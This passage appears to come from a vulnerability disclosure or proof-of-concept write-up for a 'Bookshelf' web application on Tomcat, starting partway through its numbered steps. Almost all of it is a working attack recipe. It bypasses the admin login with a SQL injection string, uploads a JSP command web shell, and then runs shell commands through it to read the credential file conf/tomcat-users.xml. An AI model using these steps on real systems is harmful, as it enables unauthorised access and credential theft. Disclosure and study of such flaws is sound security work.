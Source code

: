 2. Try to access http://192.168.101.119:8080/Bookshelf/admin  

   username: ' or 'x'='x

   password: ' or 'x'='x

3. Upload command shell cmd.jsp
4. Browse http://192.168.101.119:8080/Bookshelf/admin/cdm.jsp  

​    ![image-20211016133531523](images/image-20211016133531523.png)

5. Try to send the following command:

- ls

- ls conf

- cat conf/tomcat-users.xml

  

6. View page source
